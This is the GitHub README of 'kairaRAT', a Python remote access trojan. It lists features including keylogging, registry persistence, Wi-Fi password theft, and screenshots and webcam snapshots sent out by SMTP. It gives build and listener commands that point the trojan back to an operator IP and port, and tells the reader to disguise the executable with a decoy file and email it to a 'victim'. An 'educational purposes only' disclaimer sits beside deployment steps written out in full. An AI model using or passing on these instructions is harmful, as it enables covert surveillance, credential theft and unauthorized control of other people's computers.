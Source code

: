 # kairaRAT
kairaRAT is a remote access trojan tool built with python.

![kaira1](https://github.com/st4inl3s5/kairaRAT/assets/68844502/201fb3a4-f68a-4c0e-bdc8-cc04f8e376b0)

## Features

+ File/directory managing (delete, rename, create, change etc.)

+ Download files from victim's computer using SMTP server.

+ Executing command on windows command prompt.

+ Taking screenshots from victim's computer using SMTP server.

+ Taking victim's camera snapshots using SMTP server.

+ Keylogger.

+ Persistence(hides trojan to registry and copies itself.)

+ Taking wifi names and passwords.

+ Connection without disconnection.

+ Can be merged with an arbitrary file.

+ Automatic build mode.

+ Automatic update mode.

## EDUCATIONAL PURPOSES ONLY.

#### I am not responsible in bad uses of kairaRAT.

## SETUP

You need 2 OS.1)Linux OS 2)Windows OS.Linux for listening connections and managing connections.Windows for building .exe executable file.To make setup, execute the following command on both of them :

+ pip install -r requirements.txt

  ## USAGE

  1. If you want to put icon for the trojan, go to internet and find a image file.Then convert this image file to icon file(with .ico extension) and save this icon to your windows.And if you want to merge a file with trojan too, go to internet and find a merge file(this can be .docx, .png, .jpg etc.) and save to your windows.(This step is optional for social engineering.)
 
  2. If you want to download files from victim's computer, find a SMTP server on the internet and register.(This step is optional for downloading files from victim.)
 
  3. In windows, open a command prompt terminal and change the directory to the kairaRAT project directory.Build the executable file with following command :
 
  + python main.py build -ip <your_server_ip_address> -p <your_server_port> -i <icon_file(optional)> -m <file_to_merge(optional)> -n <file_name_after_build_finish(optional)>
 
  + Example : python main.py build -ip 172.28.89.113 -p 4444 -i filetoicon.ico -m hashtypes.png -n kaira.exe
 
  + Example : python main.py build -ip 172.28.89.113 -p 4444 -n kaira.exe
 
  ![kaira2](https://github.com/st4inl3s5/kairaRAT/assets/68844502/25ed23eb-8bcc-493b-aad0-ebc45feab032)

  4. Wait for building process.When the building finished, you see a message :
 
  ![kaira3](https://github.com/st4inl3s5/kairaRAT/assets/68844502/568461f6-b98b-41a8-b494-61333ee53e51)

  5. Check the builds directory.You must see the executable file.

  ![kaira4](https://github.com/st4inl3s5/kairaRAT/assets/68844502/353e7f0e-4a00-4a20-87b0-9aae4838f184)

  6. After that, send this executable file to your victim via email etc.And wait for victim's execute the file.When executed, the merge file will be opened(if you configured to) and trojan executing in background.Copies itself and makes persistence.
 
  ![kaira5](https://github.com/st4inl3s5/kairaRAT/assets/68844502/291e24b1-8310-41db-8d40-a0dc28e37833)

  7. Then listen the connections on your linux with the following command :
 
  +  python3 main.py server -ip <your_server_ip_address> -p <your_server_port> -sh <smtp_address(optional)> -sp <smtp_port(optional)> -se <smtp_email(optional)> -spass <smtp_password(optional)>
 
  +  Example : python3 main.py server -ip 172.28.89.113 -p 4444 -sh "smtp.gmail.com" -sp 587 -se "testsmtp@gmail.com" -spass "password123"
 
  +  Example : python main.py server -ip 172.28.89.113 -p 4444
 
  8. When the connection established, a screen like this appear :

  ![kaira6](https://github.com/st4inl3s5/kairaRAT/assets/68844502/f520e7d2-d121-4b42-a4af-cb1cf9edc6e7)

  9. Type 'help' for command list.The usage all of them is written.
 
  10. You can take camera snapshots, screenshots, victim's keylog using SMTP server.Check your email inbox to view.
 
  ![kaira7](https://github.com/st4inl3s5/kairaRAT/assets/68844502/05e6d6a1-9b7d-45d9-ad99-68e2fe0d9fcd)

  ![kaira8](https://github.com/st4inl3s5/kairaRAT/assets/68844502/eeefd26b-82df-42ca-b889-f2e80220dbca)

  ![kaira9](https://github.com/st4inl3s5/kairaRAT/assets/68844502/162305e2-a424-4b03-b625-56d0b338ac5f)

  ![kaira10](https://github.com/st4inl3s5/kairaRAT/assets/68844502/d7e8f807-f73d-475a-9812-01f1cb9bfaaf)

** You can contact me on instagram : arduinocum.py **

  [!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/st4inl3s5)
